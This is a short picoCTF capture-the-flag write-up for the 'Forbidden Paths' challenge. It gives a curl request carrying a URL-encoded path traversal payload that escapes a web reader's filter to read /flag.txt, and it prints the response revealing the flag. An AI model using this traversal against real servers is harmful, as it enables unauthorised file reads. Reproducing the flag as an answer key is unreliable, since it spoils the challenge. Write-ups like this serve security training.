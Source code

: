 # Forbidden Paths


## Description 

Here's the [website](http://saturn.picoctf.net:53864/).

We know that the website files live in `/usr/share/nginx/html/`  and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

To get the flag, all we need to do is go back 4 directories. The request:

```bash
curl 'http://saturn.picoctf.net:53864/read.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'filename=..%2F..%2F..%2F..%2Fflag.txt&read='
```

The response with the flag:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_6db46514}<br>  </body>
</html>
```
